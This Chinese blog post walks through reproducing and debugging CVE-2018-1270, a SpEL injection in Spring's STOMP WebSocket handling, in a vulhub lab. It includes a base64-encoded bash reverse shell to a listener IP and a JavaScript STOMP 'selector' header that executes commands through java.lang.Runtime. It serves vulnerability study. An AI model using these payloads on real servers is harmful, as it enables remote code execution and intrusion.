








# 记一次曲折的 CVE-2018-1270 复现分析 - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/16092456.html`](https://www.cnblogs.com/hetianlab/p/16092456.html)

# 　**前言**

　前两天接到朋友对某个授权目标的漏扫结果，也算是初次接触到这个漏洞，就想着顺手分析一下复现一下，因为分析这个漏洞的文章也比较少，所以刚开始比较迷，进度也比较慢。

# 　**漏洞复现**

　使用 vulhub 搭建环境，下载 vulhub

> git clone [`github.com/vulhub/vulhub.git`](https://github.com/vulhub/vulhub.git)

　spring 目录下有 docker 镜像直接启起来

> sudo docker-compose up -d



　访问 8080 端口即可查看



　环境搭建 ok，其实这里使用构造的 payload 不知道为什么不可以，稍后尝试，先使用**exp**去执行，在环境中刚好有 exp，我们只需要修改目标 ip


　修改执行的命令


　执行 EXP


　进入 docker 容器查看是否成功生成数据

> ocker exec -it 1f699e14e /bin/bash


　验证 EXP 成功利用，这里尝试一下反弹 shell，在另一台终端监听一个端口

> nc -lvp 9999

　修改 EXP

> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMTQuMjUxLzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}

#### 


　得到容器的 shell



　由于在线编码的平台不能使用，所以需要自己做一下 base64 的编码然后再解码，但是这里为什么直接反弹的 shell 不能够执行呢？

　是因为管道符、输入输出重定向，只有在 bash 环境下才能用。由于项目环境为 Java 环境不支持管道符、输入输出重定向等。重定向和管道符的使用方式在正在启动的进程的中没有意义。例如`ls > 1.txt` 在 shell 中执行为将当前目录的列表输出到命名为 `1.txt` 。但是在 `exec()` 函数的中，该命令为解释为获取 `>` 和 `1.txt` 目录的列表。

　下载源码

> wget [`github.com/spring-guides/gs-messaging-stomp-websocket.git`](https://github.com/spring-guides/gs-messaging-stomp-websocket.git)

　新建项目导入**pom.xml**文件搭建环境，配置配置文件



　运行本地已搭建


> [`127.0.0.1:8080/`](http://127.0.0.1:8080/)


　本地搭建目的是方便调试。

　修改代码位置

> src->main->resources->static->app.js

　修改 connect 方法

```
function connect() {
 var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};
 var socket = new SockJS('/gs-guide-websocket');
 stompClient = Stomp.over(socket);
 stompClient.connect({}, function (frame) {
 setConnected(true);
 console.log('Connected: ' + frame);
 stompClient.subscribe('/topic/greetings', function (greeting) {
 showGreeting(JSON.parse(greeting.body).content);
 },header);
 });
}
```

　保存后重新运行，Websocket 连接，send 发送任意信息即可触发**calc.exe**


# 　**分析**

　本地 windows 的触发条件更能清楚的理解，exec 中代码执行的条件是由于建立 socket 通信之后发送信息的时候触发的，这里通过下断点来调试

　首先先了解几个概念，没有 java 框架开发经验的话确实很让人头疼，SpEL 表达式，是 Spring 表达式的简写，能够以一种强大而简洁的方式将值装配到 Bean 属性和构造器参数中，在这个过程中所使用的表达式会在运行时计算得到值。简单理解就是利用简单的表达形式来实现操作。

　SpEL 支持如下表达式：

*   基本表达式：字面量表达式、关系，逻辑与算数运算表达式、字符串连接及截取表达式、三目运算及 Elivis 表达式、正则表达式、括号优先级表达式；

*   类相关表达式：类类型表达式、类实例化、instanceof 表达式、变量定义及引用、赋值表达式、自定义函数、对象属性存取及安全导航表达式、对象方法调用、Bean 引用；

*   集合相关表达式：内联 List、内联数组、集合，字典访问、列表，字典，数组修改、集合投影、集合选择；不支持多维内联数组初始化；不支持内联字典定义；

*   其他表达式：模板表达式。

　STOMP 协议

　STOMP 是一个简单的可互操作的基于帧的协议, 作用于中间服务器在客户端之间进行异步消息传递，STOMP 协议基于 TCP 协议，类似于 HTTP 协议，使用了以下命令：

```
CONNECT
SEND
SUBSCRIBE
UNSUBSCRIBE
BEGIN
COMMIT
ABORT
ACK
NACK
DISCONNECT
```

> Ctrl+N

　根据披露的漏洞位置，直接搜索问题类 DefaultSubscriptionRegistry


　在 Protected 属性 addSubscriptionInternal 方法中，定义了 selectorHeaderInUse 的属性为 true



　95 行的时候把四个参数，sessinId，subsId,destination(订阅地址("/topic/greetings")以及 expression 添加进 subscriptionRegistry 属性中。

　app.js 修改的代码位置为

> var header = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};


　private 属性中的 filterSubscriptions 方法在什么时候会触发呢？下断点调试会发现，在 send 发送信息的时候会传入 message 参数，这个时候就会调用前端传入的 selector 构造的内容即 SpEL 表达式的内容，从第二种的复现方式来看就是这样的，但是在调试的时候正常的利用是首先触发


　118 行调用 findSubscriptionsInternal 函数



> ctrl+N 向上查找函数



　在 AbstractSubscriptionRegistry 类中找到了在满足 else 的时候调用了 findSubscriptionsInternal 函数，可能在这里也许有师傅有点困惑，在这里我们需要明白的是参数 destination(订阅地址)和参数 message(含有 SpEL 表达式即 payload)的内容。

　但是这里有个疑问，那么哪里利用到了 STOMP 协议的内容呢？

　上文提到了 STOMP 协议的命令，里面涉及到的**SUBSCRIBE**命令，在 SUBSCRIBE 命令下 selector 头值会作为表达式存储，在实现 addSubscriptionInternal 方法的方法生成 sessionID 的时候表达式已经实现了存储。

　这个时候就很明显了，seesionid 的生成就涉及到了 websocket 实现客户端和服务器之间的交互



　到这里分析就结束了，但是函数调用以及漏洞触发的原因已经分析的比较清楚了。

# 　小结

　Java 的东西忘记的差不多了，IDEA 的快捷键都给忘了，突然分析起来很头大，可参考的内容也比较少，走的坑也比较多吧，有问题的地方欢迎师傅们指正。

# 　参考文章

> [`mp.weixin.qq.com/s/9ZHopkDK8aVzFPrSOEgOVg`](https://mp.weixin.qq.com/s/9ZHopkDK8aVzFPrSOEgOVg)
> 
> [`mp.weixin.qq.com/s/K56p8PkyrxmsZ1holFbh2Q`](https://mp.weixin.qq.com/s/K56p8PkyrxmsZ1holFbh2Q)
> 
> [`www.jianshu.com/p/ae3922db1f70　`](https://www.jianshu.com/p/ae3922db1f70)
> 
> **更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)**